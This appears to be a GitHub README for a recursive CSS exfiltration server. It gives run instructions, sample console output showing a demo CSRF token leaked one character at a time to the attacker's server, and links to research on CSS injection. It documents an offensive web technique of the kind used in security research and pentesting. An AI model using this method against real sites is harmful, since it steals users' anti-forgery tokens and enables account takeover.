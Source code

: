 Recursive CSS exfiltration server based on Pepe Vila's script (https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231).

Run the server with `node server.js` and open `index.html` to start the attack.

The page will recursively load CSS stylesheets and exfiltrate a CSRF token value:

```powershell
~/CSSExfiltrator-main
$ node server.js
[+] Server is listening on 5001
...pre-payload:
...post-payload:
...pre-payload: d
...post-payload: 3
...pre-payload: d3
...post-payload: d3
...pre-payload: d3a
...post-payload: 0d3
...pre-payload: d3ad
...post-payload: c0d3
[+] END: d3adc0d3

```

Useful links to understand the attack:
- https://portswigger.net/research/blind-css-exfiltration
- https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf
- https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection#import
